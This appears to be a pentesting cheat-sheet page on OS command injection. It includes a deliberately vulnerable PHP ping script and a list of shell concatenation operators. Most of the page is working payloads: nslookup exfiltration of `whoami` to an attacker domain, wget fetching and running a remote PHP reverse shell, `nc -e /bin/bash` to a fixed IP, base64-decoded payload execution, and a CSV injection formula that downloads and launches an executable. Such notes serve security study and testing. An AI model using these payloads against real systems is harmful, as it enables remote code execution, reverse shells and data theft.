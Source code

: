 # Command Injection and Execution

>[!tip]
>It occurs when, due to incorrect input sanitization, a web app using system commands mistakenly executes malicious commands in addition to the one it was designed for.

For example:

```php
<?php
if (isset($_GET['ip'])) {
    $ip_valore = $_GET['ip'];
    $ping_result = system("ping {$ip_valore}");
    echo ($ping_result)
}
?>
```

Submitting as a payload the value `127.0.0.1 ; ifconfig` the app will execute `ping 127.0.0.1 ; ifconfig`, executing our injected code.

## Blind OS command injection

```
& ping -c 10 127.0.0.1 &
& whoami > /var/www/static/whoami.txt &
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Concatenation symbols

- `;` : At least one of the two commands must be valid
- `&` : At least one of the two commands must be valid
- `|` : At least one of the two commands must be valid
- `&&` : Both commands must be valid, otherwise nothing will be executed
- `||` : Both commands must be valid, otherwise nothing will be executed
- `%0a`: New line, sometimes special characters are not checked and allow the execution of other commands

### Extended list

```bash
# Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

# Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands

# Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command

# Examples
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

## Bypasses

>[!tip]
>Bypass bash restrictions: https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

```bash
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

# Command Fuzzing List

- [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)
- [https://github.com/PortSwigger/command-injection-attacker](https://github.com/PortSwigger/command-injection-attacker)

---
# Command Injection inside files

## Excel (CSV Injection)

Trigger the calculator app: [^csv-injection]

[^csv-injection]: [CSV Injection: How a Simple Spreadsheet Can Hack Your Computer; Ali Hussain](https://medium.com/@ghostxploiter/how-a-simple-spreadsheet-can-hack-your-computer-csv-injection-98f4a26c4957)

```
=cmd|'/C calc'!A0,
```

Execute reverse shell:

```
=cmd|' /C powershell Invoke-WebRequest "http://192.168.1.6:80/exploit.exe" -OutFile "$env:Temp\exploit.exe"; Start-Process "$env:Temp\exploit.exe"'!'A1'
```

---
# External References

- [Hunting asynchronous vulnerabilities](https://portswigger.net/research/hunting-asynchronous-vulnerabilities)
